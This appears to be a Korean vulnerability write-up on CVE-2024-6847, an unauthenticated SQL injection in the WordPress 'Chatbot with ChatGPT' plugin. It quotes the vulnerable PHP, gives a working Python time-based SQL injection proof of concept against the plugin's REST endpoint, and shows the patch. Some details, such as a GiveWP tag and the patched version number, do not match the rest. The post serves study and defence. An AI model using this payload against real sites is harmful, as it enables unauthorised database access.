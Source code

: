 ```yaml
---
title: "[CVE-2024-6847] 취약점 분석 보고서"
date: 2025-02-21 19:50:00 +0900
author: rlaaudrb1104
categories: [One-Day 분석, WordPress]
tags: [빡공팟,콘테스트 네뷸라,WordPress, GiveWP, CVE-2024-6847, SQL Injection]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```



> ## **💡 요약**  
> **CVE-2024-6847**은 Chatbot with ChatGPT라는 워드프레스 플러그인 버전 2.4.4 이하에서 발견된 **SQL Injection**취약점입니다.
> 해당 취약점은 사용자가 제출한 메세지를 SQL문에 사용할 때 적절한 파라미터 검증과 이스케이프 처리가 이루어지지 않아 발생합니다.
> 이를 통해 인증되지 않은 사용자가 챗봇에 메시지를 제출할 때 악의적인 SQL 쿼리를 삽입하여 데이터베이스에 접근하거나 조작할 수 있습니다.

## 1. 취약점 개요

- **취약점 번호:** CVE-2024-6847  
- **영향 받는 버전:** Chatbot with ChatGPT 2.4.4 이하
- **취약점 유형:** SQL Injection
- **CVSS:** 9.8
- **취약점 패치 버전:** 3.2.16

해당 취약점은 WordPress의 Chatbot with ChatGPT 에서 발견된 **SQL Injection** 취약점입니다.

해당 취약점은 사용자가 챗봇에게 메세지를 전송할 때 `unique_conversation` 파라미터의 검증과 이스케이프 처리가 이루어지지 않아 발생하는 **SQL Injection** 취약점 입니다.

## 2. 취약점 상세

### 2.1 취약점 원인
<details>
    <summary><b>wdgpt_log_chat 함수</b></summary>

```php
    public function wdgpt_log_chat( $answer, $post_ids, $unique_conversation ) {
    $messages   = $this->wdgpt_get_last_two_messages();
    $messages[] = array(
        'role'    => 'assistant',
        'content' => $answer,
    );
    $now        = current_time( 'mysql' );
    $post_id    = implode( ',', $post_ids );
    global $wpdb;

    $existing_entry = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = '$unique_conversation'" );

    if ( $existing_entry ) {
        $existing_post_ids = explode( ',', $existing_entry->post_ids );
        $new_post_ids      = array_unique( array_merge( $existing_post_ids, $post_ids ) );
        $wpdb->update(
            $wpdb->prefix . 'wdgpt_logs',
            array(
                'post_ids'   => implode( ',', $new_post_ids ),
                'created_at' => $now,
            ),
            array( 'unique_id' => $unique_conversation )
        );
        $log_id = $wpdb->get_var( "SELECT id FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = '$unique_conversation'" );
    } else {
        $wpdb->insert(
            $wpdb->prefix . 'wdgpt_logs',
            array(
                'post_ids'   => $post_id,
                'created_at' => $now,
                'unique_id'  => $unique_conversation,
            )
        );
        $log_id = $wpdb->insert_id;
    }

    foreach ( $messages as $message ) {
        $this->wdgpt_insert_log_message( $message, $log_id );
    }
}
```

</details>

`wdgpt_log_chat` 함수에서 인자로 받아오는 `unique_conversation` 변수를 적절한 이스케이프 없이 sql 쿼리에 직접 사용하고 있기 때문에 SQL Injection이 발생합니다.
```php
public function wdgpt_log_chat( $answer, $post_ids, $unique_conversation ) {
	...
	$existing_entry = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = '$unique_conversation'" );
	...
	$log_id = $wpdb->get_var( "SELECT id FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = '$unique_conversation'" );
	...
}
```

<details>
    <summary><b>wdgpt_log_chat 함수</b></summary>

```php

function wdgpt_retrieve_prompt( $request ) {

	try {
		$params              = json_decode( $request->get_body(), true );
		$question            = $params['question'];
		$conversation        = $params['conversation'];
		$unique_conversation = $params['unique_conversation'];
		$answer_generator    = new WDGPT_Answer_Generator( $question, $conversation );
		$answer_parameters   = $answer_generator->wdgpt_retrieve_answer_parameters();

		header( 'Content-type: text/event-stream' );
		header( 'Cache-Control: no-cache' );
		// Check if $answer_parameters is an empty array.
		if ( empty( $answer_parameters ) ) {
			echo 'event: error' . PHP_EOL;
			echo 'data: ' . __( 'Currently, there appears to be an issue. Please try asking me again later.', 'webdigit-chatbot' ) . PHP_EOL;
			ob_flush();
			flush();
			return '0';
		}
		$api_key                = $answer_parameters['api_key'];
		$temperature            = $answer_parameters['temperature'];
		$messages               = json_decode( json_encode( $answer_parameters['messages'], JSON_INVALID_UTF8_SUBSTITUTE ) );
		$max_tokens             = $answer_parameters['max_tokens'];
		$model_type             = $answer_parameters['model_type'];
		$top_summaries_post_ids = $answer_parameters['top_summaries_post_ids'];
		$openai                 = new OpenAi( $api_key );

		$answer = '';

		$chat = json_decode(
			$openai->chat(
				array(
					'model'       => $model_type,
					'messages'    => $messages,
					'temperature' => floatval( $temperature ),
					'max_tokens'  => $max_tokens,
					'stream'      => true,
				),
				function ( $ch, $data ) use ( &$answer, $answer_generator ) {
					$obj = json_decode( $data );
					// Vérifiez si $obj est un objet et s'il a la propriété 'error' et si la propriété 'message' n'est pas vide.
					if ( is_object( $obj ) && property_exists( $obj, 'error' ) && ! empty( $obj->error->message ) ) {
						$answer_generator->wdgpt_insert_error_log_message( $obj->error->message, 0, 'stream_error' );
					} else {
						echo $data;
						$result = explode( 'data: ', $data );
						foreach ( $result as $res ) {
							if ( '[DONE]' !== $res ) {
								$arr = json_decode( $res, true );
								if ( isset( $arr['choices'][0]['delta']['content'] ) ) {
									$answer .= $arr['choices'][0]['delta']['content'];
								}
							}
						}

						// echo PHP_EOL;
						ob_flush();
						flush();
						return strlen( $data );
					}
				}
			)
		);

		$pattern     = '/\[(.*?)\]\((.*?)\)/';

		$replacement = '<a href=\"$2\" target=\"_blank\">$1</a>';

		$transformed_string = preg_replace( $pattern, $replacement, $answer );

		$transformed_string = str_replace( "\n", '<br>', $transformed_string );

		$answer_generator->wdgpt_log_chat( $transformed_string, $top_summaries_post_ids, $unique_conversation );
		return '0';
	} catch ( Exception $e ) {
		return __( 'There is currently an error with the chatbot. Please try again later.', 'webdigit' );
	}
}

```

</details>

또한 `wdgpt_log_chat` 함수를 호출하는 함수인 `wdgpt_retrieve_prompt` 함수에서도 적절한 이스케이프 없이 `wpgpt_log_chat` 함수로 전달하고 있습니다.

```php
function wdgpt_retrieve_prompt( $request ) {

	try {
		$params              = json_decode( $request->get_body(), true );
		$question            = $params['question'];
		$conversation        = $params['conversation'];
		$unique_conversation = $params['unique_conversation'];
		$answer_generator    = new WDGPT_Answer_Generator( $question, $conversation );
		$answer_parameters   = $answer_generator->wdgpt_retrieve_answer_parameters();
		...
		$answer_generator->wdgpt_log_chat( $transformed_string, $top_summaries_post_ids, $unique_conversation );
		return '0';
	} catch ( Exception $e ) {
		return __( 'There is currently an error with the chatbot. Please try again later.', 'webdigit' );
	}
}
```
따라서 사용자는 `unique_conversation` 매개변수를 통해 SQL Injection을 수행할 수 있게 됩니다.

## 3. PoC

### 3.1 PoC 코드

```python
import requests
import time

url = "http://localhost:8081/wp-json/wdgpt/v1/retrieve-prompt"

payload = "mlg4w8is9cnlxonnq78' AND (SELECT 1 FROM (SELECT SLEEP(7))A) AND '1'='1"

conversation_data = [
    {
      "text": "Test",
      "role": "user",
      "date": "2025-01-24T12:16:42.179Z"
    }
  ]

headers = {
    "Content-Type": "text/plain;charset=UTF-8",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36",
    "Accept": "*/*",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "keep-alive"
}

data = {
    "question": "test sql injection",
    "conversation": conversation_data,
    "unique_conversation": payload
}

start_time = time.time()
response = requests.post(url, json=data, headers=headers)

end_time = time.time()

response_time = end_time - start_time
if response_time > 7:
    print(f"SQL Injection successful. Response delay: {response_time:.2f} seconds.")
else:
    print("SQL Injection not successful or server did not delay.")
    
print(response.text)
```

### 3.2 주요 기능

- **URL**: `url` 변수에는 요청을 보내야 할 API 엔드포인트가 포함됩니다. 여기서는 `http://localhost:8081/wp-json/wdgpt/v1/retrieve-prompt`를 사용합니다.

- **Payload**: `payload` 변수는 SQL 인젝션 페이로드입니다. 이는 `unique_conversation` 값에 삽입되며, `SLEEP(7)`을 사용하여 서버의 응답을 7초 동안 지연시킵니다.

- **Headers**: 요청의 헤더 정보입니다. 일반적인 HTTP 요청을 위해 필요한 정보를 설정합니다.

- **Data**: 요청 본문에 포함될 데이터를 구성하는 부분으로, `question`, `conversation`, 그리고 악성 SQL 인젝션 페이로드가 포함된 `unique_conversation` 값이 포함됩니다.

- **Response Time**: 서버의 응답 시간을 측정하여 `SLEEP(7)`이 실행되었는지 확인합니다. 응답 시간이 7초 이상일 경우, SQL 인젝션 공격이 성공적으로 실행되었음을 나타냅니다.

### 결과 확인

- **성공적인 SQL 인젝션**: 만약 서버가 7초 이상 지연된 응답을 보낸다면, 이는 SQL 인젝션이 성공적으로 이루어졌다는 신호입니다. 이 경우 `SQL Injection successful` 메시지가 출력됩니다.

- **실패한 SQL 인젝션**: 응답 지연 시간이 7초 이하일 경우, SQL 인젝션이 성공하지 않았거나 서버가 이를 방어했다는 것을 의미합니다.

## 4. 패치 내용 및 변경사항 분석

```
diff --git a/path/to/file.php b/path/to/file.php
index 1234567..89abcde 100644
--- a/path/to/file.php
+++ b/path/to/file.php
@@ 기존 DB 쿼리 부분
- $existing_entry = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = '$unique_conversation'" );
+ $existing_entry = $wpdb->get_row( $wpdb->prepare(
+     "SELECT * FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = %s",
+     $unique_conversation
+ ) );
@@ 사용자 입력 sanitization 부분
- $question            = $params['question'];
- $conversation        = $params['conversation'];
- $unique_conversation = $params['unique_conversation'];
+ $question            = sanitize_text_field( $params['question'] );
+ $conversation = array_map(function($conv) {
+     return [
+         'text' => sanitize_text_field( $conv['text'] ),
+         'role' => sanitize_text_field( $conv['role'] ),
+         'date' => sanitize_text_field( $conv['date'] )
+     ];
+ }, $params['conversation']);
+ $unique_conversation = sanitize_text_field( $params['unique_conversation'] );
```

SQL Injection 취약점을 해결하기 위해, 다음과 같은 수정이 이루어졌습니다.

### 4.1 `prepare()` 사용

수정된 코드는 SQL 쿼리에서 `wpdb->prepare()`를 사용하여 `unique_conversation` 값을 안전하게 처리합니다. 이 메서드는 SQL 쿼리 내에 사용될 변수를 안전하게 escaping 처리하여 SQL 인젝션을 방지합니다.

```php
$existing_entry = $wpdb->get_row( $wpdb->prepare(
    "SELECT * FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = %s",
    $unique_conversation
));
```

### 4.2 `sanitize_text_field()` 사용
또한, `unique_conversation` 값은 입력받은 후 `sanitize_text_field()` 함수로 처리됩니다. 이 함수는 텍스트 필드에서 불필요한 HTML 태그나 특수 문자를 제거하여, 악의적인 스크립트나 SQL 쿼리를 삽입할 수 없도록 만듭니다.

```php
$unique_conversation = sanitize_text_field($params['unique_conversation']);
```
